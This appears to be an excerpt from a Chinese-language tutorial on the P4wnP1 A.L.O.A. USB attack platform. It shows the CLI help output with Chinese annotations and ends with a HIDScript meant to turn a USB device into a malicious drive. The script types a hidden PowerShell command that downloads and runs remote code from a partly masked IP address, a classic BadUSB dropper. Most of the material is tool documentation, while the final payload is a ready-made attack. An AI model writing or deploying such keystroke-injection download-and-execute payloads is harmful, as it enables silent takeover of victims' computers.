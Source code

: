 ```
/usr/local/P4wnP1/helper/genimg -l QAX -s 100 -i test/ -o QAX
```

```
root@kali:~# P4wnP1_cli -h
The CLI client tool could be used to configure P4wnP1 A.L.O.A.
from the command line. The tool relies on RPC so it could be used 
remotely.
Version: v0.1.0-alpha2
Usage:
  P4wnP1_cli [command]
Available Commands:
  db          Database backup and restore #数据库备份和还原
  evt         Receive P4wnP1 service events#接收P4wnP1服务事件
  help        Help about any command
  hid         Use keyboard or mouse functionality #  使用键盘或鼠标功能
  led         Set or Get LED state of P4wnP1 #设置树莓派led灯闪烁频率
  net         Configure Network settings of ethernet interfaces (including USB ethernet if enabled)#配置以太网接口的网络设置（如果启用，则包括USB以太网）
  system      system commands #系统命令
  template    Deploy and list templates #部署并列出模板
  trigger     Fire a group send action or wait for a group receive trigger#触发模板之类的
  usb         USB gadget settings #USB小工具设置
  wifi        Configure WiFi (spawn Access Point or join WiFi networks)#配置WiFi（生成接入点或加入WiFi网络）
Flags:
  -h, --help          help for P4wnP1_cli
      --host string   The host with the listening P4wnP1 RPC server (default "localhost")
      --port string   The port on which the P4wnP1 RPC server is listening (default "50051")
Use "P4wnP1_cli [command] --help" for more information about a command.
root@kali:~# P4wnP1_cli led --help#查看led模块的详细命令
Set or Get LED state of P4wnP1
Usage:
  P4wnP1_cli led [flags]
Flags:
  -b, --blink uint32   Set blink count (0: Off, 1..254: blink n times, >254: On)#设置为0等于关闭闪烁大于254等于常亮
  -h, --help           help for led
Global Flags:
      --host string   The host with the listening P4wnP1 RPC server (default "localhost")
      --port string   The port on which the P4wnP1 RPC server is listening (default "50051")
```

那我们使用这样一条命令来生成一个 U 盘

```
layout('us');           // US keyboard layout
typingSpeed(0,0);
press("GUI r");
delay(500);
type("powershell\n")
delay(500);
type("powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://1**.**.**.94:8083/a'))\"")
delay(500);
type("\n")
```
